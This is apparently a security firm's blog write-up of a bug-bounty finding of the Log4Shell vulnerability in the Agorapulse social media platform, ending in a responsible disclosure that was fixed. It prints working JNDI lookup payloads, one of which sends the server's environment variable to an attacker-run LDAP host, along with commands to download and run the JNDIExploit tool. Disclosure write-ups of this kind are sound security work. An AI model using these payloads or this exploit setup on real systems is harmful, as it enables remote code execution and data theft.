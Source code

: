 ```yaml
---
layout: post
title:  "How did we Found Log4shell on Agorapulse"
author: snapsec
categories: [ log4shell,article]
image: assets/images/agora-log4j/0.png
---
```



Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, Log4j has been found to be vulnerable to a number of security threats. The log4j library has recently been found to contain a serious vulnerability that went by the moniker of log4shell and gained widespread attention. This vulnerability allows unauthenticated remote code execution on vulnerable servers and may be exploited to expose sensitive information. For example, if an attacker can inject malicious code into a Log4j logging statement, they can execute any arbitrary commands on the vulnerable server.

For more information on Log4j security, see the following resources:

- OWASP Log4j Cheat Sheet
- Log4j Vulnerabilities and Exposures
- Secure Log4j Usage

Log4Shell vulnerability is a critical vulnerability, affecting Apache Log4j 2 versions 2.0 to 2.14.1, as identified by Chen Zhaojun of the Alibaba Cloud Security Team. NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this as CVE-2021–44228. Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and a havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the analytics published by hackerone which say , “Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers. The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell" . Almost the same number of reports were submitted on bugcrowd as well with over _300 reports_ submitted in a single day.


## What is agorapulse:

Agorapulse basically provides everything an organization  could possibly need for social media marketing and monitoring and management.focusing on social media platforms like facebook,linkedin and twitter,agorapulse provides a comprehensive and a compact platform for companies for their marketing strategies while also keeping it under the budget radar.The software is used to create & schedule social media content, engage audiences, listen for key terms, and analyze social media performance.


## How we found log4js on agorapulse:

It was the middle of winter of 2021 when the news of log4j vulnerability broke out in the cyber security industry. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking our company decided to focus wholly on exploiting this vulnerability.

Our company had many targets to focus on and scan for this vulnerability. So the options were open. One of those available targets was agorapulse. We plunged into research mode and figured out how we were going to scan for this vulnerability, Due to the fact that the vulnerability could be present on any endpoint, any request it was really hard to focus on one part of an application. So decided to scrap payloads all over the web application and wait for any pingbacks, To do that we We identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application and as said above to keep things organized we used functionality-specific identifiers in the payloads. 

For example, We used 

If we were using a payload in profile-picture field we would use `${jndi:ldap://profilepic.<Your-Burp-Collab-URL>/a}` and if we were pasting a payload in messege box we used `${jndi:ldap://inbox.<Your-Burp-Collab-URL>/a}` and so on, It easily allowed us to indentify the vulnerable request to trigger the vulnerability.


On the other hand we also played it safe, using a payload that was not at all harmful to the client i,e did not result in any denial of service attack or executing any malicious coommands inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the dns pingbacks : `${jndi:ldap://<Your-Burp-Collab-URL>/a}` .

So now the identification process began and after a while we received two pingbacks. One of the received was a false pingback. But next up we had a dns pingback that identified the presence of Log4shell vulnerability.


## Summarizing the Steps

So the steps to reproduce were as follows

- Start Burp and create a new burp collaborator Client
- Now Login to agorapulse and click on `Publish` to publish a new post.

![1.png](https://github.com/Snap-sec/blog/blob/gh-pages/assets/images/agora-log4j/1.png)

- Now use your burp collaborator to make a new payload `${jndi:ldap://<Your-Burp-Collab-URL>/a}`, and paste it in the Post Section.
- Now Select any profile from the left side and Publish the POST

![2.png](https://github.com/Snap-sec/blog/blob/gh-pages/assets/images/agora-log4j/2.png)

- On going back to burp collaborator Client you will see a Pingback on it

![3.png](https://github.com/Snap-sec/blog/blob/gh-pages/assets/images/agora-log4j/Three.png)


  
## Demonstration of Impact ( Remote Code Execution )


As mentioned in earlier sections the successful exploitation could lead to RCE. We refrained from doing any such action which could lead to any kind of disruption in services. So, we decide to prove the impact by extacting the global PATH variable to prove the real impact of the vulnerability and we needed to setup and JNDI server for that, So we quickly setup an amazon ec2 and setup an JNDI server using the following approach.

- SSH to your Server


```
ssh user@<your-ip>
```

- Download and Install JNDI Server

```
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```
-Run the Exploit and you should see the following output on screen

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <your-ip> -p 8888
```

After the following commands we had our JDNI server running on our `ServerIP:8888`

As we went back to Agorapulse and make a another post with this Payload : `${jndi:ldap://[ServerIp]:1389/${env:PATH}`

  
we were able just able to extract the environment variables of the server.


![4.png](https://github.com/Snap-sec/blog/blob/gh-pages/assets/images/agora-log4j/4.png)
  

We stopped right after extracting the path variables of the vulnerable server just to keep the exploitation ethical. And Hence no sensitive , Confidential or any information related to their users were extracted.


## Response of Agora Team

Submitting the report to the agora team, we got their first response in a day. They were responsive and concerned with the security of their online assets. They fixed the bug in a on the same day and rewarded our finding.

After their fix was implemented we , The team requested an re-check on the vulnerability and we tried various payloads and bypasses to conform if the fix was working well. But we were unable to bypass the fix and it was working fine and we confirmed the fix.

  
  


## About us

Snapsec is a team of security experts specialized in providing pentesting and other security services to secure your online assets. We have a specialized testing methodology that ensures in-depth testing of your business logic and other latest vulnerabilities. 

 If you are looking for a team that values your security and ensures that you are fully secure against online security threats, feel free to get in touch with us #[support@snapsec.co](mailto:support@snapsec.co)
 
 
